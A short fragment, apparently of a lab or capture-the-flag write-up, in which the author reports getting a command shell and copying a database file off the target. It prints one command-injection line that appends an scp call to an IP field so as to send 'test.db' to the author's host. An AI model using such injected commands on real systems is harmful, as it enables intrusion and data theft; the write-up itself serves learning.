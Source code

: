 ![alt text](images/image-21.png)

I gained access to the command shell.

I transferred the `test.db` file to my computer using SSH:

```command
127.0.0.1 & scp test.db mohamad@10.0.85.1:/desktop
```
